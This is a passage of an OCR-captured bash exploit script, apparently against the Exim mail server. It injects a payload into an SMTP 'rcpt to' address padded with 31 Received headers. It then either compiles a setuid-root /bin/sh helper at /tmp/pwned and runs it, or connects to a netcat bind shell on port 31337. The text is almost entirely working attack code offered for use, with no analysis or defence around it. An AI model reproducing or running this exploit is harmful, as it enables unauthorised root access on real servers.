 ```tsx
	echo "mail from:<>" >&3
	read -u 3 && echo $REPLY
	echo "rcpt to:<$PAYLOAD>" >&3
	read -u 3 && echo $REPLY
	echo "data" >&3
	read -u 3 && echo $REPLY
	for i in {1..31}
	do
		echo "Received: $i" >&3
	done
	echo "." >&3
	read -u 3 && echo $REPLY
	echo "quit" >&3
	read -u 3 && echo $REPLY
}

while [ ! -z "$1" ]; do
	case $1 in
		-m) shift; METHOD="$1"; shift;;
		* ) usage
		;;
	esac
done
if [ -z $METHOD ]; then
	usage
fi

if [ $METHOD = "setuid" ]; then

	echo "Preparing setuid shell helper..."
	echo "main(){setuid(0);setgid(0);system(\"/bin/sh\");}" >/tmp/pwned.c
	gcc -o /tmp/pwned /tmp/pwned.c 2>/dev/null
	if [ $? -ne 0 ]; then
		echo "Problems compiling setuid shell helper, check your gcc."
		echo "Falling back to the /bin/sh method."
		cp /bin/sh /tmp/pwned
	fi
	echo

	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_SETUID
	exploit
	echo

	echo "Waiting 5 seconds..."
	sleep 5
	ls -l /tmp/pwned
	/tmp/pwned

elif [ $METHOD = "netcat" ]; then
	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_NETCAT
	exploit
	echo
	echo "Waiting 5 seconds..."
	sleep 5
	nc -v 127.0.0.1 31337

else
	usage
fi
EOF
```
